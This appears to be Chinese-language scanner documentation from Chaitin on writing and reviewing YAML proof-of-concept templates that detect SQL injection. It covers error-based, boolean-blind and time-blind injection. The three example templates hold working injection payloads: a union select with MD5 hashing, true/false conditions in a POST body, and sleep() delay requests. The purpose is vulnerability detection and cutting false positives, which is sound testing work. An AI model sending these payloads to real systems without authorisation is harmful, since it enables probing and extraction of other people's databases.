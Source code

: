 ```yaml
---
title: 'SQL注入'
---
```


对于sql注入相关漏洞的检测，大致分为三种类型，这里分别进行分析

<Warning>测试SQL注入漏洞，无论是哪种类型，都请不要使用`user()`、`version()`等函数来辅助验证漏洞的存在与否。此类规则**太过宽泛**，不同系统之间显示的内容都有不同的可能，在匹配时具有一定的随机性</Warning>

## 有回显注入（error based and other）

有回显的注入检测比较简单，这里以报错注入为例进行讲解

```yaml
name: poc-yaml-test-sqli-echo-based
manual: true
transport: http
set:
	r1: randomInt(8000, 10000)
rules:
	r0:
		request:
			cache: true
			method: GET
			path: /xxx.jsp?id=1%20union%20select%201,2,sys.fn_sqlvarbasetostr(HashBytes('MD5','{{r1}}')),db_name(1),5,6,7
		expression: response.status == 200 && response.body.bcontains(bytes(substr(md5(string(r1)), 0, 31)))
expression: r0()
detail:
	author: chaitin
	links:
		- http://example.com
```

在这类的poc中，至少有一个rule会是关于sql注入的语句，但是对于结果的展示可能并不会在同一个rule中，所以下面分为两个部分讲解审核中需要注意的问题

- 对于存在`sql注入语句`的rule
    1. 对于给出的SQL注入语句
        - 语句正确无误，能够符合目标系统检出对应的漏洞，必要时可以添加一些绕过方法增加检出率
        - 对于需要验证的变量，`一定`要使用对应sql中能够使用的编码函数处理后再进行匹配，绝对不可以使用`固定值`或者`原内容`
- 对于`验证注入结果`的rule
    1. 注意返回值的编码问题，需要与注入语句中所给出的内容相同
    2. 注意返回值的长度，在部分系统中，返回内容的长度和起始位置与直接编码的结果并不相同（`updatexml`、`extractvalue` 报错回显结果可能会被截断），这时就需要使用substr等函数截取后再进行匹配

### 模板

[有回显注入](/plugins/practice/poc/Template#ordinary-injection)

## 布尔盲注（boolean based）

布尔盲注与时间盲注相似，都是一定会存在两个包含sql注入语句的rule，这里举例分析

```yaml
name: poc-yaml-test-sqli-boolean-based
manual: true
transport: http
set:
	s1: randomLowercase(5)
	a1: randomInt(1000, 9000)
	a2: randomInt(1000, 9000)
rules:
r0:
	request:
		cache: true
		method: POST
		path: /xxx.cgi
		headers:
			Content-Type: application/x-www-form-urlencoded
		body: USERDBDomains.Domainname=geardomain%27 and {{a1}}={{a2}} and %27{{s1}}%27=%27{{s1}}
		follow_redirects: true
	expression: response.body.bcontains(b"id=\"lblWarning\">User authentication Failed")
r1:
	request:
		cache: true
		method: POST
		path: /xxx.cgi
		headers:
			Content-Type: application/x-www-form-urlencoded
		body: USERDBDomains.Domainname=geardomain%27 and {{a1}}={{a1}} and %27{{s1}}%27=%27{{s1}}
		follow_redirects: true
	expression: response.body.bcontains(b"id=\"lblWarning\">User Login Failed for SSLVPN User")
expression: r0() && r1()
detail:
	author: Chaitin
	links:
		- http://example.com
```

大体的验证方法与实时间盲注相同，这里说明下几个需要注意的点
- 所匹配的页面内容一定是最终的内容，follow_redirects为true时需要匹配重定向后页面的内容
- 选取的匹配内容一定是条件为真或条件为假时所出现的`特有内容`，两者不可重叠，否则及其容易出现误报的现象
- 在匹配一些关键词的时候，如果r0中匹配了"EMPNAME"，那么r1中就应该写不匹配这个"EMPNAME"的语句，也就是`!response.body_string.contains("EMPNAME")`

### 模板

[布尔盲注](/plugins/practice/poc/Template#bool)

## 时间盲注（time based）

时间盲注的检测要稍微复杂一些，同时存在着因为网络环境等误报漏报的问题，这里举例讲解如何尽可能地减少这种误报

```yaml
name: poc-yaml-test-sqli-time-based
manual: true
transport: http
set:
	randSecond1: randomInt(5, 7)
	randSecond2: randomInt(2, 4)
rules:
	r0:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep(0)))v)%2B%27/
		expression: response.status == 200
		output:
			undelayedLantency: response.latency
	r1:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep({{randSecond1}})))v)%2B%27/
            read_timeout: "10"
		expression: response.latency - undelayedLantency >= randSecond1 * 1000 - 500 && response.status == 200 && response.body.bcontains(b"{\"code\":200")
	r2:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep({{randSecond2}})))v)%2B%27/
            read_timeout: "10"
		expression: response.latency - undelayedLantency >= randSecond2 * 1000 - 500 && response.status == 200 && response.body.bcontains(b"{\"code\":200")
expression: r0() && r1() && r2()
detail:
	author: Chaitin
	links:
		- http://example.com
```

对于时间盲注来说，我们首先需要保证出了延时的不同，path的其他部分都要保证完全一致。那么当我们发送对应的payload时，至少是能排除掉因为访问路径或者参数的不同所导致的时间差异问题

同时这里分别说明一下基础的三个请求分别所对应的意义
- 第一个请求：延时为0，测出访问对应站点时的基础延时
- 第二个请求：延时一定不为0，且时长定在(5, 7)秒，通过延长一个较长的时间来发现是否发生一个延时，但是这个内容可能收到系统方面相关网络波动的影响分
- 第三个请求：延时一定不为0，且时长一定小于第二个请求中的延时，通过一个较短的时间判断这个延时一定是因为sql注入所发生的

那么依据上边所分析出来的内容，我们可以得到以下的要求

- 在第一条关于注入的rule中
    1. 关于注入的内容
        - 关于request的内容，除时间不同以外，`一定`要与第二条rule中的request信息保持一致
        - sleep的时间一定是`0s`
    2. 关于匹配的expression
        - 符合接口的返回内容即可，比较`推荐`在其中匹配一些特有的返回结果，尽可能地消除网络环境所带来的误报问题，但是不做强求
    3. 关于output的内容
        - 这条rule一定会有output的内容，其中的变量存储着这一条请求所花费的时间
- 在第二条关于注入的rule中
    1. 关于注入的内容
        - 关于request的内容，除时间不同以外，`一定`要与第一条rule中的request信息保持一致
        - sleep的时间需要设置随机值，同时随机值的最小值一定不能小于`3s`，避免数值过小带来的网络波动问题
    2. 关于匹配的expression
        - 一定需要对访问时间的差值进行比较，确保两个相似请求之间的时间差异全部是由sleep所造成的
        - 同时无特殊的情况下，`建议`除了时间差值的比较之外，其他的内容与第一条相同
- 在第三条关于注入的rule中
    - 这一条的内容与第二条除了时间的取值都相同即可
- **一定要注意添加read_timeout: "10"，不然扫描器会直接不等响应完就根据默认时间直接结束，同时要注意该漏洞的payload是否会被执行多次，造成等待时间翻倍的情况，如果存在，请自行缩短sleep时长，同时提高read_timeout的值**

<Tip>这里强求对页面中的部分内容进行匹配，目的是为了作为目标系统的指纹，消除网络环境的影响，防止一些不相干的系统造成的误报。同时匹配的内容不用过多，体现出目标系统的独特性即可</Tip>

### 模板

[时间盲注](/plugins/practice/poc/Template#time)